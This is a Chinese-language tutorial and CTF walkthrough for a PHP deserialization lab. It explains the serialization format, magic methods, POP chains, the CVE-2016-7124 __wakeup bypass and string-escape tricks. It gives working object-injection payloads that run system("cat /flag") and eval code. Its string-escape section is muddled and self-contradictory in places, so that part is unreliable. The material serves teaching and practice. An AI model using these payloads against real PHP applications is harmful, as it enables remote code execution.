# PHPSerialize-labs

## 概述 (Overview)

PHP 的序列化 (`serialize()`) 是将 PHP 的值（包括对象、数组、基本类型等）转换为可存储或传输的字符串表示形式的过程。反序列化 (`unserialize()`) 则是将这个字符串表示形式还原为原始 PHP 值的过程。这个机制常用于数据缓存、Session 存储、进程间通信等场景。然而，当 `unserialize()` 函数处理的数据来源不可信（例如来自用户输入）时，会引发严重的安全风险，最常见的即 **PHP 对象注入 (PHP Object Injection)** 漏洞。攻击者可以通过构造恶意的序列化字符串，在反序列化时实例化非预期的对象、控制对象属性，并可能利用 PHP 的**魔术方法 (Magic Methods)** 来触发非预期的行为，如任意代码执行 (RCE)、文件操作、SQL 注入等。

## 识别特征 / 使用场景 (Identification / Use Cases)

*   **识别特征 (Identification):**
    *   在 PHP 源代码中搜索 `unserialize()` 函数调用。
    *   检查 `unserialize()` 的参数是否直接或间接来自于用户可控的输入，如 `$_GET`, `$_POST`, `$_COOKIE`, `$_REQUEST`, 读取的文件内容等。
    *   在 HTTP 请求/响应中（如 Cookie 值、POST 数据、隐藏表单字段）观察到类似 `O:4:"User":2:{s:4:"name";s:4:"test";...}` 格式的 Base64 编码或明文字符串。
*   **使用场景 (Use Cases):**
    *   **开发者:** 缓存对象状态、存储用户 Session 数据、在不同 PHP 进程间传递复杂数据。
    *   **攻击者:** 利用 `unserialize()` 处理不可信数据触发漏洞，进行对象注入、属性篡改、执行 POP 链以达到 RCE、信息泄露、权限提升等目的。
    *   **CTF 场景:** 考察对序列化格式、魔术方法、POP 链构造、绕过技巧（如 `__wakeup` bypass）的理解和利用。

## 工作原理 (Working Principle)

1.  **序列化 (`serialize()`):**
    *   将 PHP 数据结构（对象、数组、标量等）转换为一种特定格式的字符串。
    *   对象序列化时会保存其类名和所有**非静态**属性（包括 `public`, `protected`, `private`）。
    *   **魔术方法 `__sleep()`:** 如果对象所属的类定义了 `__sleep()` 方法，`serialize()` 会在序列化前调用它。`__sleep()` **必须**返回一个包含**应被序列化**的属性名称的数组。未包含在返回数组中的属性不会被序列化。

2.  **反序列化 (`unserialize()`):**
    *   接收序列化字符串，根据其格式重新构造出 PHP 数据结构。
    *   **对象重建:** 当反序列化一个对象时，PHP 会根据序列化字符串中的类名查找对应的类定义，并创建一个该类的新实例。**注意：此时不会调用类的构造函数 `__construct()`**。
    *   **属性填充:** 将序列化字符串中保存的属性值填充到新创建的对象实例中。
    *   **魔术方法 `__wakeup()`:** 如果对象所属的类定义了 `__wakeup()` 方法，`unserialize()` 会在**成功重建对象之后**（但在返回对象之前）自动调用它。常用于执行对象初始化或资源重新连接等操作。
    *   **魔术方法 `__destruct()`:** 当对象不再被引用（例如 `unset()` 调用、脚本执行结束、GC 回收）时，会自动调用 `__destruct()` 方法。这是 **POP 链**中最常见的终点（gadget sink）。

3.  **序列化格式 (Serialized Format):**
    *   `b:<0 or 1>;` - 布尔值 (boolean)
    *   `i:<integer value>;` - 整数 (integer)
    *   `d:<float value>;` - 浮点数 (double/float)
    *   `s:<string length>:"<string value>";` - 字符串 (string)
    *   `N;` - NULL 值
    *   `a:<size>:{<key>;<value><key>;<value>...}` - 数组 (array)
    *   `O:<class name length>:"<class name>":<number of properties>:{<property name>;<property value>...}` - 对象 (object)
    *   **特殊属性格式:**
        *   `public` 属性: `s:<prop name length>:"<prop name>";<prop value>`
        *   `protected` 属性: `s:<prop name length+3>:"\0*\0<prop name>";<prop value>` (URL 编码后为 `%00*%00`)
        *   `private` 属性: `s:<prop name length+class name length+2>:"\0<class name>\0<prop name>";<prop value>` (URL 编码后为 `%00<ClassName>%00`) - **注意 `\0` 是空字节 (null byte)**。
    *   `R:<reference index>;` - 对同一序列化流中先前对象的引用。

4.  **其他关键魔术方法 (Other Key Magic Methods):**
    *   `__toString()`: 当对象被当作字符串使用时（例如 `echo $obj;` 或字符串拼接时）自动调用。必须返回一个字符串。
    *   `__invoke()`: 当尝试以调用函数的方式调用一个对象时（例如 `$obj();`）自动调用。

## 常见漏洞与利用技术 (Common Vulnerabilities & Exploitation Techniques)

### 1. 基础：类的实例化与值传递 (Basics: Instantiation & Value Passing)

*   **原理:** 反序列化可以创建指定类的对象实例，并控制其属性值。
*   **示例 (Level 1 - 类的实例化):**
    *   代码要求传入一个 `FLAG` 类的实例。
    
    *   Payload: 直接在代码中创建实例 `code=$flag=new FLAG();` (这里是直接代码执行，非反序列化场景，但演示了目标对象)
    
*   **示例 (Level 2 - 值的传递):**
    *   代码需要将 `$flag_string` 的值赋给 `$target` 对象的某个属性。
    
    *   Payload 1 (非预期): `echo $flag_string;`
    
    *   Payload 2 (预期解): `$target->free_flag=$flag_string;`
    

### 2. 访问控制与序列化格式 (Access Modifiers & Serialized Format)

*   **原理:** `protected` 和 `private` 属性在序列化时有特殊的前缀格式，包含空字节 (`\0`)。理解并正确构造这些格式是控制非 `public` 属性的关键。同时，类的访问控制规则（`protected` 可在子类访问，`private` 仅在当前类）依然适用。
*   **示例 (Level 3 - 值的权限):**
    *   考察如何访问不同权限的属性。
    
    *   Payload 1 (直接访问): `echo $target->public_flag; echo $target->get_protected_flag(); echo $target->get_private_flag();` (通过 getter 方法访问)
    
    *   Payload 2 (子类访问): `echo $sub_target->public_flag; echo $sub_target->show_protected_flag(); echo $target->get_private_flag();` (子类可直接访问 public，通过子类方法访问 protected)
    
*   **示例 (Level 4 - 初体验 & Level 5 - 普通值规则):**
    *   Level 4: 使用 `echo serialize($flag_is_here);` 获取对象的序列化字符串，暴露属性值。
    *   Level 5: 手动构造包含各种数据类型（布尔、NULL、字符串、整数、对象、数组）的序列化字符串。
        ```php
        // 目标序列化字符串 (payload for code=... parameter)
        // b:1;                                       // bool(true)
        // N;                                         // NULL
        // s:5:"IWANT";                                // string(5) "IWANT"
        // i:1;                                       // int(1)
        // O:2:"me":1:{s:7:"a_value";s:4:"FLAG";}      // object(me)#? (1) { ["a_value"]=> string(4) "FLAG" }
        // a:2:{s:1:"a";s:3:"Plz";s:1:"b";s:7:"Give_M3";} // array(2) { ["a"]=> string(3) "Plz" ["b"]=> string(7) "Give_M3" }

        // 组合起来作为 code 参数的值 (需要 URL 编码特殊字符如 &)
        // code=b=b:1;%26n=N;%26s=s:5:"IWANT";%26i=i:1;%26o=O:2:"me":1:{s:7:"a_value";s:4:"FLAG";}%26a=a:2:{s:1:"a";s:3:"Plz";s:1:"b";s:7:"Give_M3";}
        ```
*   **示例 (Level 6 - 权限修饰规则):**
    *   手动构造包含 `protected` (`\0*\0`) 和 `private` (`\0ClassName\0`) 属性的序列化字符串。
     (代码定义)
     (构造的 Payload)
    *   **Payload 示例 (需要 URL 编码空字节):**
        ```
        O:4:"Main":3:{s:14:"%00Main%00secret";s:4:"flag";s:12:"%00*%00common";s:4:"flag";s:6:"public";s:4:"flag";} 
        ```

### 3. PHP 对象注入与魔术方法利用 (Object Injection & Magic Method Exploitation)

*   **原理:** 当 `unserialize()` 处理用户可控的数据时，攻击者可以构造序列化字符串来实例化任意已定义的类，并控制其属性。如果这些类中存在某些魔术方法（特别是 `__destruct`, `__wakeup`）执行了危险操作（如 `eval()`, `system()`, 文件包含/删除，SQL 查询等），并且这些操作受到对象属性值的影响，就可能导致漏洞。
*   **示例 (Level 7 - 实例化和反序列化):**
    *   代码存在 `unserialize($obj_string)`，且 `FLAG` 类有 `backdoor()` 方法可执行命令，该方法在 `__destruct()` 中可能被间接调用或直接利用。
     (类定义显示 `__destruct` 调用 `backdoor`，`backdoor` 执行 `$this->key`)
    *   **构造 Payload:** 创建一个 `FLAG` 类的序列化对象，将 `key` 属性设置为要执行的 PHP 代码（例如 `system('ls');` 或 `eval($_POST["cmd"]);`）。
        ```php
        <?php
        class FLAG {
            public $key = "phpinfo();"; // 设置要执行的代码
            // 其他属性和方法... 
            // __destruct 会调用 backdoor($this->key)
        }
        $obj = new FLAG();
        echo urlencode(serialize($obj)); 
        ?>
        ```
        生成的 payload: `O%3A4%3A%22FLAG%22%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D`
     (传递构造的序列化字符串)
     (成功执行命令，获取 Flag)
*   **示例 (Level 8 - GC 机制):**
    *   `__construct` 初始化 `$flag=0`，`__destruct` 不初始化，`check` 函数检查 `$flag`。目标是通过多次调用 `__destruct` 来绕过 `__construct` 的初始化，使得 `check` 函数执行时 `$flag` 仍然是触发 `__destruct` 前的值。
    
    *   **Payload:** 创建多个对象，然后 `unset` 掉它们触发 `__destruct`，最后调用 `check`。
        ```php
        $a = new Vuln(); 
        $b = new Vuln(); 
        $c = new Vuln(); 
        unset($a); 
        unset($b); 
        unset($c); // 多次触发 __destruct
        check($target); // 此时 $flag 可能未被重置为 0
        ```
     (获取 Flag)
*   **示例 (Level 9 - 构造函数的后门):**
    *   `FLAG` 类的 `__destruct` 方法包含 `eval($this->cmd);`。
     (类定义)
    *   **Payload:** 创建 `FLAG` 对象，设置 `cmd` 属性为要执行的代码（注意 flag 在环境变量中，使用 `getenv('FLAG')`）。
        ```php
        <?php
        class FLAG {
            public $cmd = 'system("cat /flag");'; // 或 'echo getenv("FLAG");'
            // ...
        }
        $obj = new FLAG();
        echo urlencode(serialize($obj));
        ?> 
        ```
        生成的 payload: `O%3A4%3A%22FLAG%22%3A1%3A%7Bs%3A3%3A%22cmd%22%3Bs%3A22%3A%22system%28%22cat+%2Fflag%22%29%3B%22%3B%7D`
     (执行 Payload 获取 Flag)

*   **示例 (Level 10 - `__wakeup()`):**
    *   `__wakeup()` 方法在反序列化后执行，其中包含获取 flag 的逻辑。
     (类定义)
    *   **Payload:** 只需提供一个该类的合法序列化字符串即可触发 `__wakeup()`。
        ```php
        <?php
        class INFO {
            public $name = 'guest';
            public $pass = 'guest';
            // ... __wakeup() 会打印 flag
        }
        $obj = new INFO();
        echo urlencode(serialize($obj));
        ?>
        ```
        Payload: `O%3A4%3A%22INFO%22%3A2%3A%7Bs%3A4%3A%22name%22%3Bs%3A5%3A%22guest%22%3Bs%3A4%3A%22pass%22%3Bs%3A5%3A%22guest%22%3B%7D`
     (获取 Flag)

### 4. `__wakeup()` 绕过 (Bypass __wakeup - CVE-2016-7124)

*   **原理:** 在 PHP 5.6.25 之前的 5.x 版本和 7.0.10 之前的 7.x 版本中存在一个漏洞：如果在序列化字符串中，表示对象属性数量的值 **大于** 对象实际拥有的属性数量，那么在反序列化时，`__wakeup()` 魔术方法将**不会被调用**。
*   **利用:** 如果 `__wakeup()` 方法包含一些安全检查或重置属性的操作，可以通过此漏洞绕过这些操作，直接进入 `__destruct()` 或其他利用阶段。
*   **示例 (Level 11 - CVE-2016-7124):**
    *   `__wakeup()` 会将关键属性 `$cmd` 重置为 `null`，而 `__destruct` 会执行 `$cmd`。
     (类定义)
    *   **Payload:** 构造 `FLAG` 对象的序列化字符串，设置好 `$cmd`，然后**手动修改**对象属性数量的值（例如，如果实际只有 1 个属性 `cmd`，则将 `O:4:"FLAG":1:{...}` 修改为 `O:4:"FLAG":2:{...}` 或更大）。
        ```php
        <?php
        class FLAG {
            public $cmd = 'system("cat /flag");';
        }
        $obj = new FLAG();
        $serialized_obj = serialize($obj); 
        // Original: O:4:"FLAG":1:{s:3:"cmd";s:22:"system("cat /flag");";}
        // Modified: O:4:"FLAG":2:{s:3:"cmd";s:22:"system("cat /flag");";} 
        // Note the ":1:" changed to ":2:"
        $payload = 'O:4:"FLAG":2:{s:3:"cmd";s:22:"system(\"cat /flag\");";}'; 
        echo urlencode($payload);
        ?>
        ```
        Payload: `O%3A4%3A%22FLAG%22%3A2%3A%7Bs%3A3%3A%22cmd%22%3Bs%3A22%3A%22system%28%5C%22cat+%2Fflag%5C%22%29%3B%22%3B%7D`
     (发送修改后的 Payload，成功绕过 `__wakeup` 并执行命令)

### 5. 其他魔术方法利用 (`__sleep()`, `__toString()`, `__invoke()`)

*   **`__sleep()` (Level 12):**
    *   **原理:** `__sleep()` 在 `serialize()` 时调用，控制哪些属性被序列化。`private` 属性名需要包含 `\0ClassName\0` 前缀，`static` 属性无法被序列化。
     (类定义)
    *   **利用:** 理解其行为，构造序列化字符串时只包含 `__sleep()` 返回的属性，并使用正确的格式。如果 `__sleep` 本身存在逻辑漏洞，也可能被利用。
     (构造 Payload，确保只包含 `__sleep` 允许的属性且格式正确)

*   **`__toString()` (Level 13):**
    *   **原理:** 当对象被用作字符串时调用。如果 `unserialize()` 后的代码中有将对象当作字符串处理的地方（如 `echo $obj;`），则会触发 `__toString()`。
     (类定义，`__toString` 返回 `$flag`)
    *   **利用:** 反序列化对象后，在代码中触发字符串转换即可。
        ```php
        $a = unserialize($user_input); 
        echo $a; // Triggers $a->__toString()
        ```
     (Payload: `echo $obj;` 触发 `__toString` 获取 flag)

*   **`__invoke()` (Level 14):**
    *   **原理:** 当对象被当作函数调用时执行。
     (类定义，`__invoke` 根据参数返回 flag)
    *   **利用:** 反序列化对象后，在代码中像函数一样调用它。
        ```php
        $a = unserialize($user_input);
        $a('get_flag'); // Triggers $a->__invoke('get_flag')
        ```
     (Payload: `$obj('get_flag');` 触发 `__invoke` 获取 flag)

### 6. POP 链构造 (Property Oriented Programming - POP Chain Construction)

*   **原理:** POP 链利用的核心思想是：即使没有一个单一的类在反序列化时能直接导致漏洞（例如，没有类的 `__destruct` 直接调用 `eval`），但可以通过组合多个类的对象和它们的魔术方法调用关系，形成一个“调用链”（gadget chain）。链的起点通常是 `unserialize()` 后自动调用的魔术方法（如 `__wakeup` 或 `__destruct`），链中的每个环节（gadget）是一个类的方法（通常是魔术方法），该方法的操作会读取并使用某个对象属性，而这个属性又被设置为另一个类的实例，从而触发下一个环节的方法调用，最终达到链的终点（sink gadget），执行危险操作（如 `eval`, `system`, 文件操作等）。
*   **示例 (Level 15 - POP 链前置):**
    *   **目标:** 调用 `destnation` 类的 `action` 方法中的 `eval()`。
    *   **触发点:** `D` 类的 `__destruct` 方法会调用 `$this->d->action()`。
    *   **链条:**
        1.  `unserialize()` 创建 `D` 对象。
        2.  脚本结束或 `unset` 时，`D::__destruct` 被调用。
        3.  `$this->d->action()` 被执行。需要 `$d` 是 `destnation` 类的实例。
        4.  `destnation::action` 执行 `eval($this->cmd->a->b->c)`。需要 `$cmd` 是 `A` 类的实例。
        5.  需要 `A` 实例的 `$a` 属性是 `B` 类的实例。
        6.  需要 `B` 实例的 `$b` 属性是 `C` 类的实例。
        7.  需要 `C` 实例的 `$c` 属性包含要执行的代码。
     (类定义)
    *   **构造 Payload:** 逐层嵌套创建对象。
        ```php
        <?php
        class C { public $c = 'system("cat /flag");'; }
        class B { public $b; }
        class A { public $a; }
        class destnation { public $cmd; }
        class D { public $d; }

        $c_obj = new C();
        $b_obj = new B(); $b_obj->b = $c_obj;
        $a_obj = new A(); $a_obj->a = $b_obj;
        $dest_obj = new destnation(); $dest_obj->cmd = $a_obj;
        $d_obj = new D(); $d_obj->d = $dest_obj;

        echo urlencode(serialize($d_obj));
        ?>
        ```
     (构造好的序列化字符串)
     (执行 Payload 获取 Flag)

*   **示例 (Level 16 - POP 链构造):**
    *   **目标:** 获取 `$flag` 变量的值。
    *   **触发点:** `INIT::__wakeup` 中 `echo $this->name;`。
    *   **链条:**
        1.  `unserialize()` 创建 `INIT` 对象，触发 `__wakeup`。
        2.  `echo $this->name;` 将 `$name` 当作字符串使用。需要 `$name` 是 `B` 类的实例，以触发 `B::__toString`。
        3.  `B::__toString` 返回 `$this->b`。需要 `$b` 是 `A` 类的实例，并以函数方式调用它，以触发 `A::__invoke`。
        4.  `A::__invoke` 返回 `$flag`。
     (类定义)
    *   **构造 Payload:**
        ```php
        <?php
        class A { } // Needs $flag property implicitly set or available globally
        class B { public $b; }
        class INIT { public $name; }

        $a_obj = new A();
        $b_obj = new B(); $b_obj->b = $a_obj; 
        $init_obj = new INIT(); $init_obj->name = $b_obj;

        echo urlencode(serialize($init_obj));
        ?>
        ```
     (构造好的 Payload)
     (获取 Flag)

### 7. 字符串逃逸 / 类型混淆 (String Escape / Type Confusion via Serialization)

*   **原理:** PHP 的 `unserialize()` 在解析序列化字符串时，严格按照格式（如 `s:length:"value";`）读取数据。如果一个序列化过程（例如，在 `serialize()` 之前对属性值进行了某种过滤或替换，如 `filter($value)`）改变了字符串的**实际长度**，但没有相应地更新序列化字符串中表示长度的那个数字，就可能导致问题。攻击者可以构造特定的属性值，使得经过过滤/替换后，其长度发生变化，从而“吞噬”或“吐出”后面的字符，破坏原有的序列化结构，注入新的属性或修改对象类型。
*   **示例 (Level 17 - 字符串逃逸1 - 长度增加):**
    *   假设 `filter` 函数将 `ctfhub` 替换为 `hello` (长度从 6 变为 5，减少)。或者（更常见的利用）将 `x` 替换为 `xx` (长度增加)。
    *   如果属性值中包含的字符被替换后**长度增加**，会导致 `unserialize` 读取的字符数少于实际应读取的，从而将原本属于该属性值一部分的字符错误地解析为后续的属性定义或对象结束符。
    *   **利用:** 通过精确计算，构造一个属性值，使其经过 filter 增/减长度后，正好能“吃掉”或“留下”一部分字符，形成我们想要的序列化结构（例如，注入一个新的属性或闭合当前对象并开始一个新的对象定义）。
     (代码，filter 未知，但目标是添加 `admin=1` 属性)
    *   **Payload:** 需要构造 `$value`，使其长度变化后能注入 `";s:5:"admin";i:1;}`。假设 filter 将 `xx` 替换为 `yyy` (长度+1)。我们需要注入 19 个字符。构造 `$value` 包含 19 个 `xx`，再加上原本的 `";s:5:"value";s:5:"guest";}`。filter 后，19 个 `xx` 变为 19 个 `yyy` (长度增加 19)，序列化时 `s:L:"...xx..."` 中的 `L` 是基于原始长度计算的。`unserialize` 时，按照 `L` 读取，会提前结束，然后把本应是值一部分的 `";s:5:"admin";i:1;}` 解析为新的属性。
     (构造 Payload，注入 `admin` 属性)
     (获取 Flag)

*   **示例 (Level 18 - 字符串逃逸2 - 长度减少):**
    *   目标是将 `Demo` 类对象变为 `FLAG` 类对象。`filter` 将 `FLAG` 替换为 `Demo` (长度从 4 变为 4，不变？或者假设 filter 将 `badword` 替换为 `good`，长度减少)。
    *   如果属性值中包含的字符被替换后**长度减少**，会导致 `unserialize` 按原长度读取，从而“吞噬”掉原本序列化字符串中紧跟其后的字符（例如属性分隔符 `;` 或引号 `"`）。
    *   **利用:** 构造一个属性值，使其经过 filter 长度减少后，正好吞掉后面的 `";}`，然后紧接着构造一个新的对象序列化字符串 `O:4:"FLAG":...`。
     (代码，目标是将 `Demo` 替换为 `FLAG`)
    *   **Payload:** 假设 `name` 属性的值会经过 filter。构造 `name` 的值，使其包含足够多的、会被缩短的子串，使得总长度减少量恰好等于 `";s:5:"value";s:8:"aaaaaaaa";}` 的长度 (28 字符)。然后在这个 name 值后面直接拼接 `";s:5:"value";s:8:"aaaaaaaa";}O:4:"FLAG":0:{}`。`unserialize` 时，读取 name 会吞掉后面的 `";s:5:"value";...;}`, 然后直接开始解析 `O:4:"FLAG":0:{}`。
    *   (实际 Level 18 的解法可能是利用 filter 将 `FLAG` 替换为 `Demo` 的特性，通过精心构造的属性值，使得替换后形成 `...";s:4:"name";s:XX:"...Demo...";s:5:"value";s:4:"FLAG";}` 这样的结构，利用引号匹配错误来注入 `FLAG` 字符串到 value 属性中。这更像是利用 filter 逻辑而非单纯的长度变化。)